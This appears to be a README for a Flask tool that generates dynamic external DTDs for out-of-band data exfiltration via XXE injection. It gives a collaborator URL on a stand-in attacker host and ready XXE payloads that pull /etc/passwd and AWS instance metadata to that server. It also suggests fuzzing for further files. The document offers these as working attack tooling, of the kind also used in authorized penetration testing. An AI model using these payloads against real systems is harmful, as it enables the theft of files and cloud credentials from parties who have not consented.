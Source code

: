 # Dynamic-DTD
A python Flask app that generates dynamic DTDs for easy out-of-band data exfiltration.

Usually when using external DTDs to perform out-of-band data exfiltration with an XXE Injection vulnerability, you have to keep modifying the DTD, updating the external entity to point to new locations (files, internal web resources, etc.) every time you want to exfiltrate something new. This simple python Flask app allows you to create dynamic DTDs based on a single URL parameter, meaning that you can easily use it with your favorite fuzzer and file wordlist, sit back, and watch the data come in.

## Installation

Installation is simple. Just clone this repository, and install flask using pip:

```bash
pip3 install flask
```

## Configuration

In `app.py`, on line 5, change the `collab` variable to the URL of either a Burp collaborator payload, or even just a web server you can view access logs on. Include the scheme, port number if it is non-standard, but leave off the trailing slash ( / ). An example can be seen below:

```
collab = "https://subdomain.evil.com:8443"
```

## Usage

Change to the directory of `app.py` and run the following command, specifying the port you want the server to run on, and the IP of the interface you wish to use.

```bash
flask run -p <port> -h <interface-ip>
```

Once the server is running, you can use the following payload in your XML documents, updating the `<server-ip>`, `<port>`, and `ext` parameter to appropriate values:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/malicious.dtd?ext=file:///etc/passwd"> %xxe;]>
```

If the attack is successful, the contents of the /etc/passwd file (using the above example) should appear in the access logs of the `collab` server specified earlier. Note that for some parsers, only the first line of the file may get sent.

Once the `<server-ip>` and `<port>` are set in the payload, the value of the `ext` parameter can be fuzzed to try and find different files, or can be replaced by other URI schemes (e.g. http, https). For example, the following payload can be used to try and extract information from the AWS Instance Metadata API:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/malicious.dtd?ext=http://169.254.169.254/latest/dynamic/instance-identity/document"> %xxe;]>
```
